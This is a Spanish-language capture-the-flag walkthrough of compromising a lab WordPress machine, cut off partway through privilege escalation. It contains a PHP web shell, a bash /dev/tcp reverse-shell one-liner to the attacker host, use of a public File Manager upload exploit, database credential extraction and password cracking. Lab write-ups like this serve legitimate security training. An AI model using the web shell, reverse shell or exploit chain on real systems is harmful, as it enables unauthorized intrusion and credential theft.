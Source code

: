 #WordPress #RCE #ReverseShell #MySQL #BruteForce 
[[192.168.1.19 (Atacante)]]

--------

Hacemos un primer reconocimiento con [[NMAP]]
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 192.168.1.23 -oG allPorts`

Obtendremos los siguientes puertos:
```js
[*] IP Address: 192.168.1.23
[*] Open ports: 22,80
```

Hacemos un escaneo mas exhaustivo sobre estos dos puertos con [[NMAP]]
`nmap -p22,80 -sCV 192.168.1.23 -oN targeted`

Obtendremos la siguiente información de los puertos:
```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
```


### WEB

Con el servicio en el puerto 80 levantado, navegamos con Firefox a la IP y usamos [[WHATWEB]] para ver que contiene la web e información sobre esta:
`whatweb http://192.168.1.23/`

```python
http://192.168.1.23/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.1.23]
```


Haremos una enumeración de la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://192.168.1.23/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`

Nos enumerara los siguientes directorios:
```js
/index.html
/blog
/javascript
```

Si navegamos a `/blog` vemos que es un WordPress tendremos que añadirlo en el `/etc/hosts`, ahora recargamos la web y se vera el contenido como es.

Volveremos a enumerar el  [[00.- WORDPRESS]], con la herramienta [[WPSCAN]]
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive`

Descubriremos un usuario llamado `wp-admin`, también si usamos el API token de [[WPSCAN]] podremos enumerar posibles vulnerabilidades. `$WPTOKEN` es una variable en la ZSHRC con el API token de WPScan
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive --api-token=$WPTOKEN`

Al usar el Token lo que nos otorga son vulnerabilidades que ha habido sobre esa versión o esos plugins pudiendo así facilitarnos a la hora de realizar la explotación en esta caso usaremos el siguiente POC que nos otorga:
`https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9`

No da un script de Python con el POC, así que lo descargamos con wget:
`wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py`

Una vez descargado vemos en el código que llama a un archivo `.php` llamado `payload.php` lo creamos con el siguiente contenido que nos facilitara dar ordenes con el comando cmd:
```php
<?php
	echo"<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```

Ahora una vez creado deberemos ejecutar el python:
`python3 2020-wp-file-manager-v67.py http://192.168.1.23/blog/`

Nos dará un código de estado 200 y nos indicara donde se encuentra el fichero que hemos creado, en este caso la siguiente:
`http://192.168.1.23/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php`

Al finalizar la URL podemos añadir `?cmd=<comando>` para ejecutar comandos en la cmd de la maquina victima.

Como tenemos ejecución remota de comandos `RCE` nos ponemos en nuestra maquina atacante en escucha en el puerto `443`
`nc -nlvp 443`

Y en la web nos lanzamos una reverse shell:
`bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0<%261"`

Obtendremos una shell y hacemos le tratamiento de la TTY

Navegamos a `/home` y veremos los usuarios y en usuario `hagrid98` encontramos el primer horocrux(Flag)

Para acceder a la información del wordpres buscamos en la ruta `cat /etc/apache2/sites-enabled/wordpress.conf`, y este nos dirá en donde se encuentra alojado el wordpress, que es en:
`/usr/share/wordpress`

En el `wp-config.php` no encontramos ninguna contraseña pero vemos que este esta llamando a `/etc/wordpress/config-default.php` así que lo leemos para ver que contiene

Y encontramos las credenciales del usuario root de la base de datos del wordpress `root::mySecr3tPass`

Nos conectamos en la base de datos `mysql -uroot -p` y cuando nos pida la contraseña la introducimos, listaremos las bases de datos:
`show databases;` vemos que hay una llamada wordpress, navegamos a ella
`use wordpress;` vemos las tablas que contiene
`show tables;` vemos la tabla `wp_users` así que listamos su contenido
`describe wp_users;` y seleccionaremos todo los que hay dentro de esta tabla
`select * from wp_users;` nos mostrara los usuarios con sus contraseñas las cuales se pueden crakear por fuerza bruta, nos la copiamos en un fichero llamado `hash` para intentar crackearlo con fuerza bruta.

Usaremos la herramienta [[JOHN THE RIPPER]]
`john --wordlist=/usr/share/wordlists/rockyou.txt hash `

Nos devolverá las credenciales del usuario `hagrid98::password123`

Nos podremos conectar con el usuario por `SSH`
`ssh hagrid98@192.168.1.23`

Vamos a buscar binarios que tengan permisos SUID como root
`find / -perm -4000 2>/dev/null` No encontramos nada relevante

Ahora buscamos en donde el propietario sea `hagrid`
`find / -user hagrid98 2>/dev/null`

Vemos un fichero en `/opt/.backup.sh` que puede ser sospechoso y el usuario es `hagrid`
Este fichero lo que hace es realizar una copia de forma recursiva de un fichero a otro fichero

Alteraremos el script para que la bash tenga de privilegios `4755` para que sea SUID y tener propietario root y así poder lanzarla como root
`nano /opt/.backup.sh`

```bash
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads 
chmod 
```








